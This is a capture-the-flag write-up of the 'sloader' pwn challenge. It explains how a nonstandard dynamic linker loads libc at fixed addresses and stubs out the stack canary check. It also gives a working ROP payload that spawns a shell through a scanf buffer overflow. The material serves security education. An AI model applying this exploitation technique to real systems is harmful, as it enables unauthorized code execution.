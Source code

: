 ## sloader (pwn, easy, 39 solves)

[solve.py](solver/solve.py)

### Problem Setting

You are given a binary, which you might think is unsolvable.

```
$ cat chall.c
#include <stdio.h>

int main(void) {
    char buf[16];
    scanf("%s", buf);
    return 0;
}
$ checksec --file=chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

However, the server executes the binary by using [`sloader`](https://github.com/akawashiro/sloader) as a dynamic linker (not ld)!

### Solution

If you execute the binary with sloader, you might notice that even though the binary says it's PIE, the address of the binary loaded is always the same, which often happens in some non-standard environments.

```
gef> vmmap
[ Legend:  Code | Heap | Stack | Writable | NONE | RWX ]
Start              End                Size               Offset             Perm Path
0x0000000001400000 0x0000000001401000 0x0000000000001000 0x0000000000000000 rw- /dev/zero (deleted)
0x0000000001401000 0x0000000001402000 0x0000000000001000 0x0000000000000000 rwx /dev/zero (deleted)
0x0000000001402000 0x0000000001403000 0x0000000000001000 0x0000000000000000 rw- /dev/zero (deleted)
0x0000000001403000 0x0000000001405000 0x0000000000002000 0x0000000000000000 rw- /dev/zero (deleted)
0x0000000010000000 0x0000000010001000 0x0000000000001000 0x0000000000000000 r-- /home/ubuntu/tsgctf4/pwn/sloader/src/sloader
0x0000000010001000 0x0000000010263000 0x0000000000262000 0x0000000000001000 r-x /home/ubuntu/tsgctf4/pwn/sloader/src/sloader  <-  $rcx, $rip
0x0000000010263000 0x00000000102e4000 0x0000000000081000 0x0000000000263000 r-- /home/ubuntu/tsgctf4/pwn/sloader/src/sloader
0x00000000102e4000 0x00000000102f1000 0x000000000000d000 0x00000000002e3000 r-- /home/ubuntu/tsgctf4/pwn/sloader/src/sloader
0x00000000102f1000 0x00000000102f4000 0x0000000000003000 0x00000000002f0000 rw- /home/ubuntu/tsgctf4/pwn/sloader/src/sloader  <-  $rbx, $rbp, $r12, $r15
0x00000000102f4000 0x000000001030f000 0x000000000001b000 0x0000000000000000 rw-
0x000000001107f000 0x00000000110d0000 0x0000000000051000 0x0000000000000000 rw- <tls>  <-  $rsi, $r9
0x00007fdccfd75000 0x00007fdccfd79000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007fdccfd79000 0x00007fdccfd7d000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007ffcf992e000 0x00007ffcf994f000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $rsp
0x00007ffcf99d6000 0x00007ffcf99da000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffcf99da000 0x00007ffcf99dc000 0x0000000000002000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000001000 0x0000000000000000 --x [vsyscall]
```

Another interesting point for this linker is how the libc address is resolved.
Let's see what happens how `scanf` in `main` is resolved.
In the middle of scanf, the backtrace is like this

```
gef> bt
#0  0x00000000101f05c2 in read ()
#1  0x0000000010148121 in _IO_new_file_underflow ()
#2  0x000000001014b7a7 in _IO_default_uflow ()
#3  0x00000000101317c0 in __vfscanf_internal ()
#4  0x0000000010130d5f in __isoc99_scanf ()
```
so, `scanf` is located at the strange address `0x0000000010130d5f`. What is this? This is located in the mapped region with a fixed address.
In fact, all the functions in glibc seem to be mapped in the sloader's region.

https://github.com/akawashiro/sloader/blob/0744fde8deab2c3269c11e1075d13c5cc80a82e5/libc_mapping.cc#L281

```
0x0000000010001000 0x0000000010263000 0x0000000000262000 0x0000000000001000 r-x /home/ubuntu/tsgctf4/pwn/sloader/src/sloader  <-  $rcx, $rip
```

This means we don't have to leak any address to bypass ALSR.

Now the problem is how do I bypass the stack canary? If you try to input a large buffer (like "A" * 100) to it, you will notice that you can overwrite the return address!

```
0x7ffc3d465a08|+0x0000|000: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'[...]  <-  retaddr[1]  <-  $rsp
```
So now we can pwn this chall just by a simple ROP payload:
```
system_addr = 0x1012c960
binsh = 0x10270563
pop_rdi = 0x10009132
ret = pop_rdi + 1

padding = b"A" * 40

payload = [
    ret,
    pop_rdi,
    binsh,
    system_addr,
]

payload = padding + b''.join(map(p64, payload))

```

Why? You don't have to understand why and just do ROP, but let us see what happens. If you go through the source code of sloader, you may notice there is a mapping between the symbols of libc and actual implementations [here](https://github.com/akawashiro/sloader/blob/master/libc_mapping.cc). And the implementation for `stack_chk_fail` is

```
#define DEFINE_DUMMY_FUN(name) \
    void sloader_##name() {    \
        ;                      \
    }
// #define DEFINE_DUMMY_FUN(name) void sloader_##name(){ RAW_PRINT_STR(#name); }

/** ommitted **/

DEFINE_DUMMY_FUN(__stack_chk_fail)
```

`stack_chk_fail` does nothing other than return, so you can freely overwrite the stack canary!
